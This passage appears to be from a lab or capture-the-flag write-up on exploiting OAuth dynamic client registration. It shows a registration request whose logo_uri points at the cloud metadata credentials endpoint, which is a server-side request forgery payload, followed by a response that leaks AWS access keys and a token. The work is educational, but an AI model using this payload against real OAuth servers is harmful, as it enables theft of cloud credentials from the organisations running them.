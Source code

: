     Priority: u=4
    Te: trailers
    Content-Length: 187

    {
        "redirect_uris" : [
            "https://xqresf7gzvogghkferv2no4jgam1aryg.oastify.com"
        ],
    "logo_uri":"http://169.254.169.254/latest/meta-data/iam/security-credentials/admin/"
    }

    ```
7. Now visiting the https://Your-OAuth-ID.oauth-server.net/.well-known/openid-configuration you should get something like 
    ```json
    HTTP/2 200 OK
    X-Powered-By: Express
    Content-Type: application/json; charset=utf-8
    Date: Mon, 02 Jun 2025 09:30:44 GMT
    Keep-Alive: timeout=5
    Content-Length: 530

    {
        "Code" : "Success",
        "LastUpdated" : "2025-06-02T09:22:08.126268102Z",
        "Type" : "AWS-HMAC",
        "AccessKeyId" : "m2Y9xD7dMqQ4x8sZIlru",
        "SecretAccessKey" : "KApg1LRKH4nKQC4RdF63pzdLmNMfaNXXTU66rxop",
        "Token" : "zdVldgsphuDvqhdrpaDjBLlj0duJvI9kki26kluF7THIH0qmtzzlBhu0Voh9QrZMqor47wfkDaFdcXLeFvGw3EIkWo57lEWbsDqdT7TEf2otHZCQi3eoRs2GQz7GNw7DJVdJy7Ev8omiuE6ldP6hjHIXIYipcurcwIba4DGFmpBeohI5Yc7IHyPXgUzlHqmLR1QDH0JsT0xzZ53M2tzCfZQYOAxWBYdbAqN09PApUA5uyydbl9ISw4JtOkpJ63dk",
        "Expiration" : "2031-06-01T09:22:08.126268102Z"
    }
    ```

